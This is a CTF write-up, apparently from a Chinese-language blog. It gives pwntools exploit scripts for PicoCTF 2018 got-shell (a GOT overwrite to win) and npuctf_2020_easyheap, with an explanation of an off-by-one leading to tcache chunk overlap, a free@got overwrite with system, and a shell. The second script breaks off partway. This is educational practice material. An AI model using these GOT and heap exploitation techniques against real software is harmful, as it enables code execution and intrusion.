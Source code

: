 ```py
from pwn import *
context.log_level = 'debug'
# io = process('./PicoCTF_2018_got-shell')
io = remote('node4.buuoj.cn', 27364)
elf = ELF('./PicoCTF_2018_got-shell')
target = elf.got['puts']
value = elf.symbols['win']

io.sendlineafter(b'value?\n', hex(target)[2:].encode())
io.sendlineafter(hex(target)[2:].encode(), hex(value)[2:].encode())

io.interactive()
```

# buu076-npuctf_2020_easyheap
增删改查四个功能，其中增加只能增加大小为0x20或0x40的堆块。改功能有off by one漏洞。

本题环境是2.27，因此释放的堆块都会在tcache中保存。而要想tcache中的堆块被重新分配，其大小就必须是0x20或0x40。如果使用off by one漏洞修改一个堆块的size，则必须在其正在使用时修改，否则当堆块释放时修改大小，在重新分配时无法通过检查。至于大小的修改，有两种可能：改大或改小。

如果改大，则只能从0x20改为0x40，修改后的大小如果不为0x40，在释放后将无法被重新分配。如果改小，可以从0x40改为0x20，后面的部分由于可以控制，因此可以伪造成一个假chunk。

这里选择的是<font color=red>**改大**</font>。如何改？首先想象这样的堆排布：三个0x20的chunk，前面2个都是用作buffer，后面一个用于heaparray结构，现在通过edit第1个chunk将第2个chunk的大小改成0x40，再释放第2、3个chunk，就会产生chunk重叠，之后再重新分配回来，就可以通过edit随意修改heaparray中的指针，进而实现任意地址写。本题中最方便的就是改到free的got表位置，通过show获取libc地址，然后将这里的值改成system函数地址，直接delete即可get shell。

```py
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
# io = process("npuctf_2020_easyheap")
io = remote('node4.buuoj.cn', 29065)
elf = ELF("npuctf_2020_easyheap")

sla = lambda x, y: io.sendlineafter(x, y)
sa = lambda x, y: io.sendafter(x, y)

def create_heap(size, content):
	sla(b'Your choice :', b'1')
	sla(b'Size of Heap(0x10 or 0x20 only) : ', str(size).encode())
	sla(b'Content:', content)
	
def edit_heap(index, content):
	sla(b'Your choice :', b'2')
	sla(b'Index :', str(index).encode())
	sla(b'Content: ', content)

def show_heap(index):
	sla(b'Your choice :', b'3')
	sla(b'Index :', str(index).encode())
	
def delete_heap(index):
	sla(b'Your choice :', b'4')
	sla(b'Index :', str(index).encode())

create_heap(0x18, cyclic(0x38))	# 0
create_heap(0x18, cyclic(0x18))	# 1
create_heap(0x18, cyclic(0x18))	# 2
delete_heap(0)
edit_heap(1, b'/bin/sh'.ljust(0x18, b'\x00') + p8(0x41))
delete_heap(2)
create_heap(0x38, b'/bin/sh'.ljust(0x18, b'\x00') + p64(0x21) + p64(0x38) + p64(elf.got['free']))
show_heap(0)
io.recvuntil(b'Content : ')
```
